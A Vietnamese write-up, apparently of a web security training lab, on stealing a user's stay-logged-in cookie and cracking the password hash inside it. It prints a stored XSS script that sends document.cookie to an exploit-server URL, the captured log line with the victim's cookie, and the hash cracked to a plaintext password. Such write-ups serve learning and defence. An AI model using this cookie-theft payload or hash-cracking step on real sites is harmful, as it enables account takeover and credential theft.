

# Lab: Offline password cracking

Khi thử tính năng `stay-log-in`, base64 decode `d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw` của user `wiener` sẽ ra `wiener:51dc30ddc473d43a6011e9ebba6ca770`, đây là password hash của user `wiener`.

-> Mục tiêu lấy được cookie `stay-log-in` của user `carlos` để login vào tài khoản của user này.

Khi browse trang web, thấy trang web dính lỗ hổng XSS tại comment, vì vậy upload comment sau:
```
<script>
document.location="https://exploit-0ab0000b04b1d615806b029901540095.exploit-server.net/log?key="+document.cookie
</script>
```

Truy cập log của exploit server, thấy:
```
10.0.4.214      2026-06-18 04:01:15 +0000 "GET /log?key=secret=lys8GlWUTLL8mLMtusk9UeIwDpHhH6nG;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```

Decode b64 thu được:
```
carlos:26323c16d5f4dabff3bb136f2460a943
```

Dùng crackstation để đoán password:


-> carlos's password là `onceuponatime`.

Đăng nhập vào tài khoản của user `carlos` với password vừa đoán được và Delete account để hoàn thành lab.